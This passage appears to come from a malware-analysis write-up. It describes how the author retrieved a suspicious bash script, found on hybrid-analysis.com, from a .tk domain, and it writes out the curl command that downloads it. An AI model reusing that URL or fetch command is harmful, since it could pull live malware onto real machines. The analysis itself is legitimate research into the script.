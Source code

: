 ### Counter measures used 

When I first downloaded the bash script from hybrid-analysis.com. I tired to download the bash script link on my Windows machine. But ```http://e3sas6tzvehwgpak.tk/r88.sh``` gave me a redirect error. <br>

But when I typed the command,  ```curl http://e3sas6tzvehwgpak.tk/r88.sh``` on my subsystem I was able to download the link.<br>

